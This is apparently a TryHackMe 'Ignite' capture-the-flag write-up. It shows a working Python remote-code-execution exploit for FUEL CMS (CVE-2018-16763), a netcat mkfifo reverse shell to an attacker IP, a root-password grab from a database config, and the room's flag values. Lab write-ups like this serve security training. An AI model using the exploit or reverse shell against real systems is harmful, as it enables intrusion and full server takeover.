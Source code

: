 ```yaml
---
title: "Ignite - TryHackMe"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Ignite - TryHackMe writeup"
---
```


[TryHackMe | Ignite](https://tryhackme.com/room/ignite)

A new start-up has a few issues with their web server.

Root the box! Designed and created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471), built by [lollava](https://tryhackme.com/p/lollava) aka Paradox.

Enjoy the room! For future rooms and write-ups, follow [@darkstar7471](https://twitter.com/darkstar7471) on Twitter.

First, port scan :

```bash
nmap -sV --script vuln 10.10.217.248
```

Open 80 port :

Launch the web application (bottom of the home page)

```bash
That's it!
To access the FUEL admin, go to : http://10.10.217.248/fuel
User name: admin
Password: admin
```

So we have the admin creds but, i'll check if there is some exploit for the Fuel CMS (there is one)

```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

import requests
import urllib

url = "http://10.10.217.248/" # Target IP
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = input('cmd:')
    url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
    r = requests.get(url)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)

    print(r.text[0:dup])
```

There you go !

✅ You can send a reverse shell with the php filter

```python
cmd: rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.45.74 9999 >/tmp/f
```

✨Better shell with root access 👀

```python
python -c  'import pty; pty.spawn("/bin/bash")'
```

With the python interpreter you can have a better shell now, with the config of the database we have the root password **mememe**

```python
su -r root
password: mememe
```

**#1 User.txt**

```bash
#cd /home/www-data && cat user.txt
6470e394cbf6dab6a91682cc8585059b
```

**#2 Root.txt**

```bash
#cat root.txt
b9bbcb33e11b80be759c4e844862482d
```

```python
#cat /var/www/html/fuel/application/config/database.php
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        **'username' => 'root',
        'password' => 'mememe',**
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```
